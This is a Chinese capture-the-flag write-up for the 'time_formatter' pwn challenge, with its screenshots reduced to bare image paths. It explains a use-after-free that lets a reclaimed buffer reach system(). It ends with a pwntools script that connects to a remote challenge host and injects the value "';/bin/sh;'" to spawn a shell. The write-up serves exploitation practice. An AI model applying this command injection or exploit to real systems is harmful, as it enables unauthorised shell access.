










# time_formatter

这个题也是第一次让我看到没有malloc的堆题

这里我们查看一下ida的代码程序



这里我们查看到了是一个菜单题，这里我们

因此我们要结合ubuntu中的程序进行一个分析



这里我们查看1的函数模块





主要是这里我们输入的数据只能是这个代码段里面的字符和特殊符号因此我们这里我们不能获取一些敏感的数据



这里有一个uaf漏洞因此我们可以进行一个数据



在这里我们可以得到一个堆块在ret的位置就可以进行一个获取



这里获取的原因是他调用了strdup这个函数这个函数这个函数会在调用一个malloc这个函数体因此我们并且数据就是我们输入a1





这里可以知道可以去读取ptr的构造一个system（/bin/sh）来获取权限并且可以在5这个函数块中可以知道一个点他的free函数是在验证数据的前面也就是他会先free堆块

因此我们可以从这吧堆块free掉后重新在3中申请这堆块



但是有人说为什么不能直接调用3吗这个原因就是他会提示没有格式

因此这个堆题是非常不错的

```python
from pwn import *

context.log_level = 'debug'
# p = process("/home/fofa/pwn123")
p = remote("223.112.5.141",51511)

def func(a):
    p.recvuntil("> ")
    p.sendline(a)


func('1')
payload1 = 'a' * 8#创建格式
p.sendline(payload1)
func('5')
p.sendline('N')
func('3')

p.sendline('\';/bin/sh;\'')
func('4')
p.interactive()

```

